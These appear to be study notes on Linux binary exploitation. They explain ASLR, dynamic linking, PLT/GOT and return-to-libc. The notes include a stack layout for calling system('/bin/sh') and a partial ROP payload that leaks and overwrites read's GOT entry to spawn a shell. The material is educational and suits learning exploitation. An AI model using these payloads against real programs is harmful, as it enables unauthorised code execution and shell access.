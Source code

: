 Address of every function except **main**(in code section) always changes. <br>
Lower 12 bits of the **libc_base** and **printf** address is not changed(due to paging of linux) <br>
Distance between **libc_base** and **printf** is always same. 

### Library

Library: enables sharing functions that are used often in common for efficiency <br>

### Link

Linking -> usually last step of compiling. If the program uses functions from library, those functions are actually linked to libary <br>

In linux, C code => preprocess, compilation, assembly => translated into ELF object file. 

```
gcc -c hello-world.c -o hello-world.o
```

object file has executable format, but doesn't have information about location of functions. <br>
In linkage procedure, linker matches symbols used in the program with actual defenitions. <br>

Dynamic linking: When binary is executed, dynamic library is mapped into process's memory. <br>
Static linking: Static linked binary includes all the functions of library -> doesn't need outer library 

### PLT & GOT

PLT(Procedure Linkage Table), GOT(Global Offset Table) -> Used to find dynamically linked symbol <br>
GOT -> table for address of **resolved** functions <br>

At first, GOT is empty -> PLT calls dynamic linker, write GOT with actual address <br>

### Return To Library

libc -> functions like system, execve exist <br>
Use libc function to bypass NX(section that has excute capability) <br>

Can overwrite return address like below 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

### Return Oriented PRogramming

Technically speaking, **system** function will not be recorded on PLT. <br>
To use it, we need to find the address of mapped libc and calculate function's address <br>
<br>
Library file -> entire file is mapped -> all the functions are mapped on process memory <br>

```
# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
```